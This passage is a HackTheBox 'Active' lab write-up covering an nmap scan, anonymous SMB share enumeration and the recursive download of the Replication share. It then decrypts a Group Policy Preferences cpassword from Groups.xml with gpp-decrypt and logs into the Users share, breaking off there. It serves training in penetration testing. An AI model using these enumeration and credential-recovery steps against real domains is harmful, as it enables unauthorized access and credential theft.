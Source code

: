 #easy #SMB 

[**Active**](https://app.hackthebox.com/machines/Active) is an #easy HackTheBox Lab featuring #SMB .

Today, we'll attempt to capture the user flag. 

Lets dig in and hack this thing.

---
## Discovery 

As per usual, we begin by conducting a network scan of the host machine.

	sudo nmap -sC -sV 10.10.10.100

Below is a summary of the ports [[nmap]] found to be open. 

	PORT      STATE SERVICE       VERSION
	53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
	88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-09-20 00:28:52Z)
	135/tcp   open  msrpc         Microsoft Windows RPC
	139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
	389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
	445/tcp   open  microsoft-ds?
	464/tcp   open  kpasswd5?
	593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
	636/tcp   open  tcpwrapped
	3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
	3269/tcp  open  tcpwrapped
	49152/tcp open  msrpc         Microsoft Windows RPC
	49153/tcp open  msrpc         Microsoft Windows RPC
	49154/tcp open  msrpc         Microsoft Windows RPC
	49155/tcp open  msrpc         Microsoft Windows RPC
	49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
	49158/tcp open  msrpc         Microsoft Windows RPC
	49165/tcp open  msrpc         Microsoft Windows RPC
	Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

## Analysis

It appears that the target is running **Windows Server 2008**. But how are we supposed to interface with the server? 

Firstly, SSH is configured to use port 22, which appears to be closed.

What about [[Server Message Block (SMB)|SMB?]]

Well, a quick Google search tells us that [[Server Message Block (SMB)|SMB]] is typically configured to run on ports 139 and 445; both of which are open on the target machine. Lets see if the Server allows for an Anonymous login. But first, lets enumerate through all the shares on the machine using [[smbclient|smbclient:]]

	smbclient -L  \\\\10.10.10.100

The command results in the following output:

    Sharename       Type      Comment
    ---------       ----      -------
	ADMIN$          Disk      Remote Admin
    C$              Disk      Default share
    IPC$            IPC       Remote IPC
    NETLOGON        Disk      Logon server share 
    Replication     Disk      
    SYSVOL          Disk      Logon server share 
    Users           Disk      

Now lets try to login to each share.

	smbclient \\\\10.10.10.100\\ADMIN$

Of course, this doesn't work. That would've been too easy:

	tree connect failed: NT_STATUS_ACCESS_DENIED

After attempting to login with each sharename, we successfully login to the Replication share:

	smbclient \\\\10.10.10.100\\Replication
	Anonymous login successful
	Try "help" to get a list of possible commands.
	smb: \> 

Typing 'ls', we list the contents of the share and stumble across this directory

	smb: \> ls
		.                                   D        0  Sat Jul 21 04:37:44 2018
		..                                  D        0  Sat Jul 21 04:37:44 2018
		active.htb                          D        0  Sat Jul 21 04:37:44 2018

You'll notice we can't change directories and browse the file-system like you would in a traditional shell. Instead, we'll download the 'active.htb' directory and all its contents from the server to our local machine. 

Firstly, we'll enable recurse, allowing for recursive downloading of all files from the directory. Next we'll disable prompts so we will not be asked to download every single file and folder present in the active.htb directory. Finally, we will initiate the download of the directory with mget.

	smb: \> recurse ON
	smb: \> PROMPT OFF
	smb: \> mget *

With the newly acquired 'active.htb' directory on our local machine, we browse the folders and files present, until a particular file catches our eye—*Groups.xml*. Lets check it out:

	└─$ cat Groups.xml 
	<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
	<User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}">
	<Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/>
	</User>
	</Groups>

Hmm, very interesting indeed! It seems we have the name of a User on the 'Users' Share, and a password!

The Users username seems to be '**SVC_TGS**'.

	name="active.htb\SVC_TGS"

And below is the password belonging to '**SVC_TGS**'. The password appears to be hashed or encrypted using some sort of algorithm.

	cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUj
	TLfCuNH8pG5aSVYdYw/NglVmQ"

A quick Google Search of 'Groups.xml' mentions something called Group Policy Preferences or GPP. Further research indicates a vulnerability in GPP, allowing us to easily crack the hashed password using a tool called '**[[gpp-decrypt]]**'.

In an attempt to deobfuscate the password, we pass the password hash as an argument to **gpp-decrypt**, resulting in the following output.

		└─$ gpp-decrypt 
	edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8p
	G5aSVYdYw/NglVmQ

Well, what do you know? The password is: 

	GPPstillStandingStrong2k18

Now, lets perform a login on the Users share, using our newly acquired user-credentials. *(Hint: IT WORKS!)*

	smbclient \\\\10.10.10.100\\Users -U 'SVC_TGS'
	Password for [WORKGROUP\SVC_TGS]:
	Try "help" to get a list of possible commands.
	smb: \> 